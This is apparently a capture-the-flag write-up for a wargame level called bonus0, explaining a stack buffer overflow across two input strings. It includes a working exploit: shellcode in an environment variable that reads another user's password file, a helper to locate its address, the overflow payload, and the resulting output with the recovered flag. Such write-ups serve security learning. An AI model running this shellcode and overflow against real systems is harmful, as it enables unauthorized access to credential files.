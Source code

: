 # Write up

Now you know how it works, small test of the program, dissassembling, translating and commenting.
The program here let us write 2 strings and display them, separated by a space.
Main calls a `pp` function before the puts call on the same stack address.
`pp` calls `p` 2 times, with a different stack offset. (See the pseudo_code.c file)
Writing 20 char in the first string overflows on the second string.
To write on the two strings at the same time with user input, we can use two python strings in once : `(python -c 'print "a" * 20'; python -c 'print "b" * 20') | ./bonus0`
Considering that with a 20 char long first buffer we each second buffer char is stored twice, we have to pad 14 chars in order to overwrite a 4-byte saved eip (20 + 28 + 4 + 1 (space) : 53 chars, one char after the payload address is mandatory to reach 54).
Same trick than the level9's one :
```
export LIDLCODE=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/user/bonus1/.pass"')
echo 'void main(){printf("%p\n", getenv("LIDLCODE"));}' > /tmp/lidl9.c; gcc /tmp/lidl9.c -o /tmp/lidl9; chmod 777 /tmp/lidl9; /tmp/lidl9 // 0xbfffff94 here
(python -c 'print "a" * 20'; python -c 'print "b" * 14 + "\x94\xff\xff\xbf" + "b"'; cat) | ./bonus0
 -
 -
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbi���b bbbbbbbbbbbbbbi���b
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Sources

https://reverseengineering.stackexchange.com/questions/2774/what-does-the-assembly-instruction-repne-scas-byte-ptr-esedi
http://shell-storm.org/shellcode/files/shellcode-73.php